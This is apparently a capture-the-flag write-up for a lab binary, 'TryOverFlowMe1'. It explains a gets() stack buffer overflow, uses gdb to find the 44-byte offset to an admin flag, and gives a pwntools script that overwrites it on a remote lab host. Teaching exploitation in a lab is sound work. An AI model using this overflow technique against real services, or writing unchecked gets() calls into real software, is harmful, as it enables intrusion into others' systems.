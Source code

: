 It initializes an array with a size of 16 bytes.

```c
char buf[0x10];
```

Then, the `gets` function is then called with this array, which reads user input and writes it to the `buf` array until it encounters a newline or the end of file (EOF). We can exploit this to write beyond the allocated space for the array on the stack.

```c
gets(buf);
```

To read the flag, our objective is to pass the `if (admin)` check. We can achieve this by exploiting the buffer overflow vulnerability to overwrite the value of the `admin` variable.

First, we need to determine the locations of the `buf` and `admin` variables on the stack. We can accomplish this by using `gdb` to display the disassembly of the `main` function.

```console
$ gdb -batch ./materials-TryPwnMeOne/TryOverFlowMe1/overflowme1 -ex 'disassemble main'
...
   0x00000000004008f6 <+28>:    mov    DWORD PTR [rbp-0x4],0x0
...
   0x0000000000400909 <+47>:    lea    rax,[rbp-0x30]
   0x000000000040090d <+51>:    mov    rdi,rax
   0x0000000000400910 <+54>:    mov    eax,0x0
   0x0000000000400915 <+59>:    call   0x400680 <gets@plt>
...
```

We observe that the `buf` array is located at `rbp-0x30`, while the `admin` variable is positioned at `rbp-0x4`.

Thus, the `admin` variable is situated `44` bytes `(0x30 - 0x4)` beyond the start of the `buf` array.

To exploit this, we will write a `Python` script utilizing the `pwntools` library.

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "error"

r = remote("10.10.74.205", 9003)

payload = b"A" * 44     # offset to the admin variable
payload += p64(1)       # overwrite the admin variable with 1

r.recvuntil(b"Please go ahead and leave a comment :\n")
r.sendline(payload)
print(r.recvline().decode())
r.close()
```
